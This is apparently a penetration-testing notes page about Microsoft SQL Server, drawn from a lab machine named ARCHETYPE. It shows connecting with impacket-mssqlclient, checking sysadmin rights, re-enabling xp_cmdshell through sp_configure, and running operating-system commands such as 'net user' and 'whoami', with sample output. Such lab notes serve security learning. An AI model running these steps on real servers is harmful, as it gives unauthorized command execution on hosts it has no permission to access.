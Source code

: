# MS-SQL (Microsoft SQL Service)

## What is MS SQL?

MS SQL, also known as Microsoft SQL Server, is a relational database management system (RDBMS) developed by Microsoft.&#x20;

### **Default MS-SQL System Tables**

* **master Database**: Records all the system-level information for an instance of SQL Server.
* **msdb Database**: used by SQL Server Agent for scheduling alerts and jobs.
* **model Database**: used as the template for all databases created on the instance of SQL Server. Modifications made to the model database, such as database size, collation, recovery model, and other database options, are applied to any databases created afterwards.
* **Resource Database**: a read-only database that contains system objects that are included with SQL Server. System objects are physically persisted in the Resource database, but they logically appear in the sys schema of every database.
* **tempdb Database** : a work-space for holding temporary objects or intermediate result sets.

### Runs on TCP port 1433 and UDP port 1434

## Enumeration

### Using Impacket&#x20;

Using impacket-mssqlclient we can connect to the MS-SQL service using the username/user-id and password from a possible publicly available production `.dtsConfig` files.&#x20;

```awk
impacket-mssqlclient ARCHETYPE\sql_svc@10.129.95.187 -windows-auth
```

### Check user access control

```
SELECT is_srvrolemember('sysadmin');
```

If it returns 1, it is True and the user can run `cmd` commands.

## Exploitation

### Command execution via xp\_cmdshell()

Once we have access to the SQL database we can check if we can use the xp\_cmdshell() command using:

```sql
 EXEC xp_cmdshell 'net user';
```

Successful execution would produce an output similar to this:

```
output                                                            
-----------------------------------------------------------------------------
NULL                                                                   
User accounts for \\ARCHETYPE                                                
NULL                                                                           
------------------------------------------------------------------------------ 
Administrator            DefaultAccount           Guest                        
sql_svc                  WDAGUtilityAccount
The command completed successfully.   
```

However, if we get the following ERROR, we don't have access to the command and we need to reconfigure the service:

{% code overflow="wrap" %}
```bash
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
{% endcode %}

Alternatively, you can check it using the following query/command.

```
sp_configure;
```

It would give an output like the one shown below. Here you can find the configuration values of other options/commands as well.

{% code fullWidth="false" %}
```
name                              minimum   maximum config_value  run_value
--------------------------------- -------  -------- ------------ -----------
access check cache bucket count     0         65536          0             0
access check cache quota            0    2147483647          0             0
Ad Hoc Distributed Queries          0             1          0             0
........
........
user options                        0         32767          0             0
xp_cmdshell                         0             1          0             0 
```
{% endcode %}

**Reconfiguration steps**

#### One line command (impacket-mssqlclient)

The simple one-liner in impacket-mssqlclient can do the honours for us.... :)

```bash
enable_xp_cmdshell
```

#### Alternative

1. If the sp\_configure command is set to show advanced options we can just directly set the xp\_cmdshell option (aka directly skip to step 5). The best way to know this is to run the command in step 5.
2. If we get the error shown below:

{% code overflow="wrap" %}
```awk
[-] ERROR(ARCHETYPE): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
```
{% endcode %}

&#x20;      Then we have to set the show advanced options to TRUE by using the command: &#x20;

```sql
EXEC sp_configure 'show advanced options', 1;
```

3. Reconfigure using the RECONFIGURE command.

```sql
RECONFIGURE;
```

4. Check if sp\_configure is working with advanced options

```
sp_configure;
```

5. Allow `xp_cmdshell()` using the command:

```sql
EXEC sp_configure 'xp_cmdshell', 1;
```

* Run reconfigure again to allow the xp\_cmdshell method. Test if it's working or not using the above diagnosis command.

We can use xp\_cmdshell after enabling it like follows:

```sql
SQL> xp_cmdshell "whoami"
```

The sample output is as follows:

```
output                                                                             
--------------------------------------------------------------------------------   
archetype\sql_svc                                                                  
NULL  
```











